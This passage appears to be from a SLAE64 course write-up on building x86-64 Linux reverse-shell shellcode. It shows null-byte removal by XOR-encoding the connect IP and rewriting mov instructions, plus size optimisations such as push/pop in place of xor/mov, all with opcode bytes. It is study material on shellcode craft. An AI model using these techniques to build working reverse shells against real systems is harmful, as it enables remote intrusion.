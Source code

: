 Example:

    mov rax, 41     ; b8 29 00 00 00

    ; can be rewritten as

    xor rax, rax    ; 48 31 c0
    mov al, 41      ; b0 29

Since the IP to connect to may include null bytes (127.0.0.1 for example does) we also need a way to transform this IP in a way that there are no null bytes. This can be accomplished for example by xoring the IP with some other value which does not cointain null values either. With this in mind:

    push 0x0100007f   ; sin_addr

    ; can be rewritten as

    push 0x10ffff70   ; sin_addr (xored)
    xor dword [rsp], 0x11ffff0f ; recover sin_addr

To verify this you can use python:

    $ python3
    >>> hex(0x10ffff70 ^ 0x11ffff0f)
    '0x100007f'
    >>> import ipaddress
    >>> ipaddress.ip_address(0x10ffff70 ^ 0x11ffff0f)
    IPv4Address('1.0.0.127')

Optimising
----------

Removing the null bytes reduced the shellcode size. But can we do better? Yes, we can.

To do this my process was to go through each part of the code and think about and try optimisations for each. It involved trial and error (assembling and disassembling) to understand which equivalent instructions could be used that were shorter. The [Intel development manuals][intel_sdm] and/or [this site][felixcloutier_x86] are also useful. Below I'll explain my main optimisations.



### xor self/mov imm vs push imm/pop

At the beginning of our shellcode we have no guarantee about the values in the registers. So to set RAX to 41, without nulls, we can do something as:

    xor rax, rax
    mov al, 41

    48 31 c0
    b0 29

This takes 5 bytes. However, the same can be accomplished by pushing the immediate value and popping to the 64-bit register, which ensures the upper bytes of the register will be overwritten.

    push 41
    pop rax

    6a 29
    58


[man_2_socket]: https://linux.die.net/man/2/syscall
[man_2_connect]: https://linux.die.net/man/2/bind
[man_2_dup2]: https://linux.die.net/man/2/dup2
[man_2_execve]: https://linux.die.net/man/2/execve
[man_2_read]: https://linux.die.net/man/2/read
[man_3_stdin]: https://linux.die.net/man/3/stdin
[beej_sockaddr_in]: https://beej.us/guide/bgnet/html/multi/sockaddr_inman.html
[endianness]: https://en.wikipedia.org/wiki/Endianness
[intel_sdm]: https://software.intel.com/en-us/articles/intel-sdm
[felixcloutier_x86]: https://www.felixcloutier.com/x86/
[cdq]: https://www.felixcloutier.com/x86/cwd:cdq:cqo
[SLAE64]: https://www.pentesteracademy.com/course?id=7